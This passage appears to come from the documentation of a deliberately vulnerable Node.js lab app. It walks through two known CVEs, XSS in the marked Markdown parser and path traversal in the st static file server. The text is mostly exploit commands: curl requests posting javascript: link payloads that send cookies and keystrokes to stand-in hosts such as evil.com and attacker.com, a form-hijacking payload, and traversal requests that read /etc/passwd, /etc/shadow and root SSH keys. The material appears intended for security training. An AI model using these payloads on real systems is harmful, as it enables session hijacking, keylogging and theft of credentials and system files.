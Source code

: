 ```bash
find /tmp -name "backup.txt" -mmin -1
```

---

### 8. **XSS via Marked** - Markdown Parser (CVE-2017-17461)
- **Severity**: Medium (CVSS 6.1)
- **Exploits**: `marked@0.3.5` allows XSS via javascript: protocol
- **Impact**: Cookie theft, session hijacking, keylogging
- **Vulnerable Package**: `marked@0.3.5`

**Attack**:
```bash
# Create malicious TODO with XSS link
curl -X POST http://localhost:3001/create \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  --data-urlencode 'content=[Click Me](javascript:alert(document.cookie))'

# Advanced payload - cookie exfiltration
curl -X POST http://localhost:3001/create \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  --data-urlencode 'content=[WIN FREE iPHONE!](javascript:fetch("http://attacker.com/?c="+document.cookie))'
```

**Payload Variations**:
```javascript
// Session theft
[Click](javascript:fetch('http://evil.com/?s='+document.cookie))

// Keylogger
[Click](javascript:document.addEventListener('keypress',e=>fetch('http://evil.com/?k='+e.key)))

// Form hijacking
[Click](javascript:document.forms[0].action='http://evil.com/harvest')
```

---

### 9. **Information Disclosure** - ST Directory Traversal (CVE-2015-8858)
- **Severity**: High (CVSS 7.5)
- **Exploits**: `st@0.2.4` static file server allows path traversal
- **Impact**: Read system files (/etc/passwd, SSH keys, source code)
- **Vulnerable Package**: `st@0.2.4`

**Attack Progression**:
```bash
# 1. Normal file access
curl http://localhost:3001/public/about.html

# 2. Directory listing
curl http://localhost:3001/public/

# 3. Path traversal (URL encoded)
curl 'http://localhost:3001/public/%2e%2e/%2e%2e/%2e%2e/etc/passwd'

# 4. Read sensitive files
curl 'http://localhost:3001/public/%2e%2e/%2e%2e/%2e%2e/etc/shadow'
curl 'http://localhost:3001/public/%2e%2e/%2e%2e/%2e%2e/root/.ssh/id_rsa'

# 5. Application source code
curl 'http://localhost:3001/public/%2e%2e/app.js'
curl 'http://localhost:3001/public/%2e%2e/package.json'
```